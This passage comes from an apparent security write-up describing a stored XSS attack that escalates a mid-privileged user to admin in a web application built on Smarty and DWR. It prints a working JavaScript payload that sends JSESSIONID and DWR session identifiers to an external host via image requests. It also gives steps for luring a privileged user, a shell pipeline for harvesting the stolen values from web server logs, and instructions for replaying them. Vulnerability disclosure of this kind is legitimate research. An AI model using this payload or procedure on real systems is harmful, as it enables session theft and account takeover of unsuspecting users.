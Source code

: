 ```
var a = document.getElementById('content-marker');
var b = a.innerHTML;

<script> new Image().src="https://ext.server/auth?JSESSIONID="+document.getElementsByTagName("b")[7].nextSibling.nodeValue </script>

{literal}

<script src='/tips/dwrS/engine.js'></script>
<script type="text/javascript">

   var url = '/tips/tipsContent.action';

   function load(url, callback) {
     var xhr = new XMLHttpRequest();

     xhr.onreadystatechange = function() {
       if (xhr.readyState === 4) {
         callback(xhr.response);
       }
     }

     xhr.open('GET', url, true);
     xhr.send('');

   var dwrsessid = dwr.engine._dwrSessionId
   var scrSessId = dwr.engine._dwrSessionId + "/" + dwr.engine._pageId

   new Image().src="https://ext.server/DWR?dwrSessionId="+dwrsessid
   new Image().src="https://ext.server/DWR?scriptSessionId="+scrSessId

   }

   load(url)
</script>
{/literal}
```

So to sum up the vulnerability, using a combination of features from the Smarty template engine and satisfying each requirement from DWR requests via appropriate imports and XHR requests a “medium-ish” privileged user could escalate their privileges to Admin. And problems solved! The final attack is your standard Stored XSS and easy once compared with the creation of the payload:
1.	A ”medium-ish” privileged user creates a custom end user login page with the payload show above.
2.	Through complaining about an issue to a more privileged user or via a more malevolent scenario, a high privileged user visits the stored payload stored by the aforementioned “medium-ish” privileged user where their Session data is leaked similar to the following screenshot.
![apache-access-log.png]({{site.baseurl}}/assets/media/posts/redacted/apache-access-log.png)

3.	The ”medium-ish” privileged user can then harvest the goods from their logs. Perhaps similar to what is shown below: On the external Apache web server something along the lines of the following could be done to harvest the necessary items:
``alias urldecode='python -c "import sys, urllib as ul; print ul.unquote_plus(sys.argv[1])"'``
``for x in `cut -d ' ' -f7 access.log | cut -d\? -f2`; do urldecode $x;done > these && sed 's/"//g' these | sed 's/ => //g' > sessionvars` && cat sessionvars``
4.	Take the output from the console and insert the values in their appropriate positions in the “medium-ish” privileges malicious HTTP requests.
![sessionvars.png]({{site.baseurl}}/assets/media/posts/redacted/sessionvars.png)
5.	And now using our “sessionvars” we can make privileged requests as an exploited user’s  privilege level. Here’s to hoping for full Admin privileges!
